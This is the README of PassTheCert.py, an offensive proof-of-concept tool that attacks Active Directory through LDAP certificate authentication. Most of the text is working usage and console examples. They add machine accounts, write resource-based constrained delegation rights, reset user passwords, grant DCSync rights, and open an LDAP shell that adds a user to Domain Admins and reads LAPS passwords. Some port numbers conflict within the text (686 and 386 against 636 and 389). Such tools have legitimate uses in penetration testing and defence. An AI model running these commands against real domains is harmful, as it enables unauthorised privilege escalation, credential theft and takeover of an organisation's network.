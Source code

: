 PassTheCert.py
==============

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}]
                      [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami,ldap-shell}]]
                      [-target sAMAccountName] [-new-pass [Password]] [-elevate] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME]
                      [-computer-name COMPUTER-NAME$] [-computer-pass password]
                      [-delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local] [-delegate-to DELEGATE_TO]
                      [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami,ldap-shell}]

Manage User:
  -target             sAMaccountnames   sAMAccountName of user to target.
  -new-pass           [Password]        New password of target.
  -elevate                              Grant target account DCSYNC rights

Manage Computer:
  -baseDN             DC=test,DC=local  Set baseDN for LDAP.If omitted, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group     CN=Computers      Group to which the account will be added.If omitted, CN=Computers will be used,
  -domain             test.local        Target domain fqdn
  -domain-netbios     NETBIOSNAME       Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name      COMPUTER-NAME$    Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass      password          Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local Services to configure in constrained delegation to configure to the new computer (no space in the list)

RBCD attack:
  -delegate-to        DELEGATE_TO       Target computer account the attacker has at least WriteProperty to
  -delegate-from      DELEGATE_FROM     Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If omitted, the domain part (FQDN) specified in the account
                        parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key

```

Actions
-------
* Manage Computer
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer

* Manage User
  * `forcePWDchange` : Modify the password of the user

* Constrained delegation attack
  * `add_computer -delegated-services`: Add a computer configured with constrained delegated services store in `msDS-AllowedToDelegateTo` new computer's attributes.

* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries

* Misc
  * `whoami`: Return the user represented by the certificate
  * `ldap-shell`: Authenticate with the certificate via Schannel against LDAP and spawn an interactive LDAP shell

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Create a computer via LDAPS with custom name and with constrained delegated services configured (cifs and ldap over SRV-MAIL.domain.local):

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[+] Adding constrained delegations to the new computer object: cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
[*] Successfully added machine account OFFSECMACHINE$ with password kUwdbHeuTw64QvaLzUYHrjfgE7hrRigS
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Change a password of a user 

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -new-pass
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully changed kpayne password to: ZqIrfZdt02OIq5Ek0ZZPcQKRWKEMEOKB
```

Elevate a user for DCSYNC

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -elevate
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Granted user 'user_sam' DCSYNC rights!
```

Spawn an interactive LDAP shell and add a user to a specific domain group

```console
$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

# add_user_to_group user_sam "Domain Admins"
Adding user: user_sam to group Domain Admins result: OK
```

*Note: The above example assumes that the domain account for which the certificate was issued, holds privileges to add users to the target domain group.*

Spawn an interactive LDAP shell and retrieve all groups the user is a member of

```console
$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

# get_user_groups user_sam
CN=Domain Admins,CN=Users,DC=plak,DC=local
```

Spawn an interactive LDAP shell and retrieve the LAPS password of a specific computer

```console
$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

# get_laps_password SRV-MAIL$
Found Computer DN: CN=SRV-MAIL,OU=Mail,OU=Standard,OU=Servers,DC=domain,DC=local
LAPS Password: #x0i{S4UF%42x50
```

*Note: The above example assumes that the domain account for which the certificate was issued, holds privileges to read LAPS passwords in the domain.*

Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
- [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)
